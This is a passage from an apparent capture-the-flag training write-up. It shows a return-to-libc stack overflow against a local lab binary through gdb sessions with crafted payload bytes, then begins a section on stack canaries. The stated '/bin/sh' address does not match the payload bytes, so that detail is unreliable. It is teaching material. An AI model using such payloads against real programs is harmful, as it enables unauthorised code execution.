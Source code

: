 So `"/bin/sh"` is located at 0xf7f280cf.

We can now prepare our exploit, we want the stack to be

stack| value      | comment
-----| -----      | ------
-1   | 0xf7dfe1fc | pointer to system in libc (minus 4)
0    | 'XXXX'     | 4 bytes padding
1    | 0xf7f280cf | pointer to "/bin/sh"

So we try our exploit

```
$ gdb -q ./1_nx_stack
Reading symbols from ./1_nx_stack...(no debugging symbols found)...done.
(gdb) r $'AAAABBBBCCCCDDDDEEEEFFFF\xfc\xe1\xdf\xf7XXXX\xcf\xf0\xf3\xf7'
Starting program: /home/larsh/Desktop/ctftraining/evolution/1_nx_stack $'AAAABBBBCCCCDDDDEEEEFFFF\xfc\xe1\xdf\xf7XXXX\xcf\xf0\xf3\xf7'
$ exit

Program received signal SIGSEGV, Segmentation fault.
0x58585858 in ?? ()
(gdb) 
```

The program crashes when it tries to return to the padding.
We can make the exploit exit cleanly by replacing the padding with a call to `exit()`.

```
(gdb) x exit
0xf7df13d0 <exit>:	0x106fa4e8
(gdb) r $'AAAABBBBCCCCDDDDEEEEFFFF\xfc\xe1\xdf\xf7\xd0\x13\xdf\xf7\xcf\xf0\xf3\xf7'
Starting program: /home/larsh/Desktop/ctftraining/evolution/1_nx_stack $'AAAABBBBCCCCDDDDEEEEFFFF\xfc\xe1\xdf\xf7\xd0\x13\xdf\xf7\xcf\xf0\xf3\xf7'
$ exit
[Inferior 1 (process 5833) exited normally]
(gdb)
```

## Stack canaries

If we compile the program with stack canaries, we are out of luck with our previous approach.

```
$ ./2_stack_canaries AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
*** stack smashing detected ***: <unknown> terminated
Aborted
```

This fortification adds a canary value on the stack, wich is checked before the function returns. We can disassemble the program and look at

```
$ objdump -d 0_no_protection > 0_no_protection.dis 
$ objdump -d 2_stack_canaries > 2_stack_canaries.dis
$ meld 0_no_protection.dis 2_stack_canaries.dis 
```
